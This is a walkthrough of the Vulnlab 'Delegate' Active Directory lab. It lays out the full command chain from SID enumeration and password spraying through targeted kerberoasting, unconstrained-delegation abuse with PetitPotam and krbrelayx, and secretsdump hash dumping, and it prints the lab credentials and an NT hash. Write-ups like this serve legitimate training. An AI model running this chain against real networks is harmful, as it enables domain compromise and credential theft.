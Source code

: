 
# Vulnlab - Delegate

```bash
Host is up (0.22s latency).
Not shown: 65522 filtered tcp ports (no-response)
PORT      STATE SERVICE    VERSION
53/tcp    open  domain     Simple DNS Plus
88/tcp open  kerberos-sec
135/tcp   open  msrpc      Microsoft Windows RPC
139/tcp   open  tcpwrapped
445/tcp   open  tcpwrapped
464/tcp   open  tcpwrapped
3389/tcp  open  tcpwrapped
| ssl-cert: Subject: commonName=DC1.delegate.vl
| Issuer: commonName=DC1.delegate.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-09-30T15:47:02
| Not valid after:  2024-03-31T15:47:02
| MD5:   3a340b861cd985281f509d995bef9f4a
|_SHA-1: ccc740dd30a643bfc26e0b7f5d018da28d7e1630
5985/tcp  open
9389/tcp  open  tcpwrapped
47001/tcp open  tcpwrapped
49667/tcp open  tcpwrapped
49669/tcp open  tcpwrapped
49670/tcp open  tcpwrapped
49686/tcp open  tcpwrapped
49691/tcp open  tcpwrapped
```

Enumerating smb with anonymous user doesn't show any intereting shares

<img src="https://i.imgur.com/5T7m6Wc.png"/>

We can however enumerate domain users with `lookupsid` using a guest account by brute forcing SIDs

```bash
lookupsid.py guest@delegate.vl 10000
```

<img src="https://i.imgur.com/mHQjqig.png"/>

Having the domain users, we can check if there's any account having pre-authentication disabled which can lead to AS-REP roasting

<img src="https://i.imgur.com/Mzd6QNB.png"/>

Checking the shares and accessing `SYSVOL` share, we can find `users.bat` file having a password

<img src="https://i.imgur.com/pPS9oqv.png"/>

<img src="https://i.imgur.com/4zLhJ9x.png"/>

Spraying this password on the users we have confirms that this password belongs `A.Briggs`

<img src="https://i.imgur.com/KKMg418.png"/>

Running `python-bloodhound` to enumerate the domain

```bash
python3 bloodhound.py -d 'delegate.vl' -u 'A.Briggs' -p 'P4ssw0rd1#123' -c all -ns 10.10.70.255
```

<img src="https://i.imgur.com/NS2Alck.png"/>
From bloodhound we can see `A.Briggs` has `GenericWrite` on `N.thompson` 

<img src="https://i.imgur.com/XXBdCnV.png"/>

This can abuse either through `Shadow credentials` or associating a SPN to N.Thompson for `Targeted kerberoasting`, I tried with shadow credentials by editing `msDS-KeyCredentialLink` but due to PKINT notbeing supported by this DC it didn't worked

<img src="https://i.imgur.com/KSFCoRD.png"/>
Attempting to perfrom targeted kerberoasting

```bash
python3 /opt/targetedKerberoast/targetedKerberoast.py -u 'A.Briggs' -p 'P4ssw0rd1#123' --request-user N.Thompson -d 'delegate.vl'
```

<img src="https://i.imgur.com/SSgPgM6.png"/>
Cracking the hash with hashcat

<img src="https://i.imgur.com/ahcovF4.png"/>

<img src="https://i.imgur.com/6P3OeDC.png"/>

Since n.thompson has `CanPSRemote` we can login through WinRM

<img src="https://i.imgur.com/qPBmeqO.png"/>

This user belongs to `Delegation Admins` but there wasn't ACLs on bloodhound for that group

<img src="https://i.imgur.com/W5iHR9b.png"/>

Checking privileges of this user shows that it has `SeEnableDelegationPrivilege` enabled

<img src="https://i.imgur.com/jGLcF3n.png"/>

This means that we can abuse unconstrained delegation by creating machine account and append a SPN to it, before that we need to make sure if machine quota isn't 0

<img src="https://i.imgur.com/9DIU52f.png"/>
First creating a machine account with `addcomputer.py`

```bash
addcomputer.py -dc-ip 10.10.70.255 -computer-pass TestPassword321 -computer-name UwU delegate.vl/N.Thompson:'KALEB_2341'
```

<img src="https://i.imgur.com/ie6I3ut.png"/>

Adding dns record for the machine account we created

```bash
python3 dnstool.py -u 'delegate.vl\UwU$' -p TestPassword321 -r UwU.delegate.vl -d 10.8.0.136 --action add DC1.delegate.vl -dns-ip 10.10.70.255
```

<img src="https://i.imgur.com/yfFJsSv.png"/>

Adding a DNS entry for this machine account with `dnstool`

```
python3 dnstool.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -r UwU.delegate.vl -d 10.8.0.136 --action add DC1.delegate.vl -dns-ip 10.10.85.247
```

<img src="https://i.imgur.com/DUcQeCL.png"/>

To abuse unconstrained delegation the machine needs to have a SPN and `TRUSTED_FOR_DELEGATION` UAC, using `bloodyAD` we can add the UAC

```bash
python3 /opt/bloodyAD/bloodyAD.py -u 'N.Thompson' -d 'delegate.vl' -p 'KALEB_2341' --host 'DC1.delegate.vl' add uac 'UwU$' -f TRUSTED_FOR_DELEGATION
```

<img src="https://i.imgur.com/v72iUUK.png"/>

Appending SPN with `addspn` via `msDS-AdditionalDnsHostName`

```bash
python3 ./addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.vl --additional

python3 ./addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.vl
```

<img src="https://i.imgur.com/iZqTTyP.png"/>
<img src="https://i.imgur.com/t0ijxmx.png"/>
Now running `krbrelayx` by first coercing authentication (using any poc i.e petipotam, printerbug, dfscoerce ) from DC1 to our added machine with unconstrained delegation enabled, this will grab the copy of DC1's TGT which gets stored in the memory of machine account having trusted for delegation enabled for the purpose of accessing resources

```bash
python3 PetitPotam.py -u 'UwU$' -p 'TestPassword321' UwU.delegate.vl 10.10.85.247
```

<img src="https://i.imgur.com/9V6o5Pl.png"/>
And running krbrelayx with NThash of the machine account

```bash
python3 ./krbrelayx.py -hashes :C7BE3644A2EB37C9BB1F248E9E0B9AFC
```

<img src="https://i.imgur.com/I4Tnoir.png"/>

Having the ticket, we can export it and dump the hashes with `secretsdump`

<img src="https://i.imgur.com/DdNzx2r.png"/>

```bash
secretsdump.py 'DC1$'@DC1.delegate.vl -k -no-pass
```

<img src="https://i.imgur.com/JURp4Ve.png"/>

<img src="https://i.imgur.com/YEkn5Ta.png"/>

# References

- https://www.thehacker.recipes/a-d/movement/dacl/targeted-kerberoasting
- https://exploit.ph/user-constrained-delegation.html
- https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/
- https://github.com/CravateRouge/bloodyAD
- https://medium.com/r3d-buck3t/attacking-kerberos-unconstrained-delegation-ef77e1fb7203
